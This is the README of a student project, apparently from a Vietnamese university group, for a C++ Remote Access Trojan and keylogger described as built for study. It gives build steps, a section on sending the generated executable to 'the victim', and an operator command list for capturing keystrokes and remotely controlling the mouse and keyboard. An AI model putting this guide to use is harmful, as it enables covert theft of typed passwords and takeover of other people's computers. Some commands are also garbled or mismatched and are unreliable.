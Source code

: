 

# Project Title

Nghiên cứu, phát triển chương trình mã độc Remote Access Trojan

# PTITHCM_TTCS_NHOM1

Nội Dung:
- Tìm hiểu và xây dựng chương trình mã độc RAT, bằng ngôn ngữ C++ nhằm mục đích học tập & nghiên cứu
- Tìm hiểu và ứng dụng khai thác một lỗ hổng bảo mật trên Windows để triển khai mã độc.
- Tìm hiểu cách một chương trình mã độc được phát tán qua Email.
- 
Thực nghiệm:
- Xây dựng mã độc Remote Access Trojan và server quản lý tập trung máy tính nạn nhân


Nhóm 1 - Thành viên:
- Đinh Quốc Toàn 
- Lý Thanh Tuấn
- Đào Duy Tâm
- Nguyễn Trần Hùng Biện
- Đinh Văn Hậu

# Platforms
* Linux ✅️
* Windows ✅️
* Termux (Android) ✅️

# Requirements
* GCC and MingWG on Linux and Termux
* MingWG on Windows

# Installation on Linux and Termux
```
git clone https://github.com/BluePhoenixxx/PTITHCM_TTCS_NHOM1.git
cd PTITHCM_TTCS_NHOM1
g++ main.cpp -o keylogger
./PTITHCM_TTCS_NHOM1
```
# Installation on Windows
```
g++ main.cpp -o keylogger.exe -lws2_32
.\keylogger.exe
```
# Sending the exe file to the victim
If you're working on Linux you need to install mingw for compiling C++ windows programs on linux.
install it using:
```
sudo apt-get install mingw-w64
```
And on termux using:
```
git clone https://github.com/mirror/mingw-w64.git;
cd mingw-w64\n";
./configure --prefix=$PREFIX --without-crt;
DESTDIR=$PREFIX make install;
```
# How to use KeyLogger?.
Set the local ip and port number using these commands.
```
lhost ip
lport port number
```
Then type exploit and the program will generate the .exe file that needs shall be send to the victim.
# KeyLogger Commands
```
SETTING OPTIONS: Set this options before lauching the attack!
Command                           Discribtion
-------                           ------------
lhost                              Sets the local host or ip address to listen on.
lport                              Sets the local port number to listen on. default 4444
exploit                            Run the script.
help                               Print this help message
clear                              Clear screen
exit                               Exit program
SESSION COMMANDS: This commands are only valid when a session is opened
LOGGING KEYSTROKES:
====================
keyscan_start                      Start capturing keystrokes
keyscan_dump                       Dump the captured keystrokes buffer.
keyscan_stop                       Stop capturing keystrokes.
SENDING MOUSE EVENTS:
=====================
mouse_move x y                     Move the mouse to x and y coordinates. The value range of x and y is 0-65535
mouse_click left                   Left click
mouse_click right                  Right click
mouse_click middle                 Click the middle mouse button
mouse_click double                 Double click the left mouse button
SENDING KEYBOARD EVENTS:
========================
keyboard_send                      Send keystrokes. This must be followed by the keys(or text) you want to send
keyevent                           Send keyboard events. like CTRL+C, ALT+F4.
                                    you must use the '+' sign to indicate that the keys should be press together.
                                    for a single key just type the key name example 'keyevent SHIFT' to press the shift key.
Supported keyevents:
A-Z, F1-F12, SHIFT, ENTER, SPACE, BACKSPACE, ALT, ESC, PAGEUP, PAGEDOWN, HOME, LEFTARROW, RIGHTARROW, UPARROW
DOWNARROW, PRINTSCRN, INSERT, DELETE, CAPS
These values are case sensetive. You must use them in upper case except for A-Z(you can use them in upper or lower case).
EXAMPLES:
keyboard_send You have been hacked!
keyevent CTRL+c
keyevent ALT+F4
keyevent ENTER
tmouse_move 2345 345
mouse_click right
```